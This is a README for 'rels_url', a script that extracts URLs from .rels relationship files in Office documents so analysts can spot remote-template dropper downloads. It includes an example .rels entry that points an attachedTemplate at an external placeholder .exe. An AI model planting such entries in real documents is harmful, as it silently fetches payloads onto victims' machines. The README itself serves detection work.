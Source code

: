 # rels_url
Office 2007+ Relational links URL extractor  

rels_url is a script that parses post 2007 or newer Micsocoft Office documents (e.g. docx, xlsx, pptx), to reveal URLs located in .rels files.  

**What is a RELS file?**  
Files that contain the .rels file extension are relationship files. These files contain information about how the parts of different Microsoft Office documents fit together. This information is also referred to as relationship parts.

RELS files serve as markers for the documents that they pertain to. They allow the various Microsoft Office applications to utilize the information in one file so that it can be used in another file.

The RELS file format is only compatible with the more recent versions of the Microsoft Office applications which support Open Office XML documents. The RELS files are saved in the directory of the Open Office XML document.

**How threat actors use the RELS files for malicious purposes**  
Threat actors can use the RELS file to access URLs and download a dropper file. This tactic is very sneaky since the .rels files are read when a document is opened and before the user can interact with the document. The user is not prompted to allow the URL to be accessed.  

**Example of a .rels file**  
\<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
\<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships">\<Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="https://sample.com/sample1/sample2/file.exe" TargetMode="External"/>\</Relationships>  

**To Use:**  
rels_url.py  file.docx

*The output will list the folder and file the URL is located in:*  

**Sample Output**  
 C:\Users\cyb3rw01f>rels_url.py D:\rels_docx

_rels/.rels

word/_rels/document.xml.rels

word/_rels/settings.xml.rels  
"https://sample.com/sample1/sample2/file.exe"

customXml/_rels/item1.xml.rels

customXml/_rels/item2.xml.rels

customXml/_rels/item3.xml.rels

customXml/_rels/item4.xml.rels
